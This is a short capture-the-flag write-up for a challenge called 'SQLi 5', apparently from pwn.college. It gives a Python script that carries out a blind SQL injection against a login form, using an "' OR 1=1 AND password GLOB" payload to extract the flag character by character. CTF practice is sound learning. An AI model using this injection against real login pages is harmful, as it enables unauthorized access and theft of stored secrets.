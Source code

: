 # SQLi 5

Python script:

```python
import requests

url = "http://challenge.localhost/"
username = "admin"
password = "' OR 1=1 AND password GLOB 'pwn.college{"

while True:
    for i in range(33,127):
        if chr(i) in ["*", "?"]:
            continue
        tmp = password + chr(i)
        data = {"username": username, "password": tmp+"*"}
        response = requests.post(url, data=data)
        if response.status_code == 200:
            password = tmp
            print(f"Found: {password}")
            if chr(i) == "}":
                exit(0)
            break
```

Using `GLOB` because `LIKE` is, by default, case-insensitive in SQLite.
